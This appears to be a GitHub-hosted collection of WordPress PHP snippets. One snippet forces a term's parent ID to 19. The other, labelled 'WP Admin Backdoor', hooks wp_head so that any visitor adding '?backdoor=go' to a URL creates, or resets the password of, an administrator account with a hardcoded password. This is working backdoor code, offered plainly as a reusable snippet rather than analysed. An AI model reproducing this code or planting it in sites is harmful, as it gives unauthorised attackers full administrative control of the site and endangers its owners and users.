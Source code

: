 # Snippets
	/**
	* Updating parent on term edit screen
	*/
	add_filter('wp_update_term_parent','test_func',10,5);
	function test_func($parent, $term_id, $taxonomy, $parsed_args, $args) {
		$parent = 19;
		return $parent;
	}
	
	/**
	* WP Admin Backdoor
	*/
	add_action('wp_head', 'WordPress_backdoor');
	function WordPress_backdoor() {
	    If ($_GET['backdoor'] == 'go') {
		require('wp-includes/registration.php');
		require('wp-includes/pluggable.php');
		If (!username_exists('backdooradmin')) {
		    $user_id = wp_create_user('backdooradmin', 'Pa55W0rd');
		    $user = new WP_User($user_id);
		    $user->set_role('administrator');
		}else{
		    $user = get_user_by( 'login', 'backdooradmin' );
		    wp_set_password('Pa55W0rd', $user->ID);
		}
	    }
	}
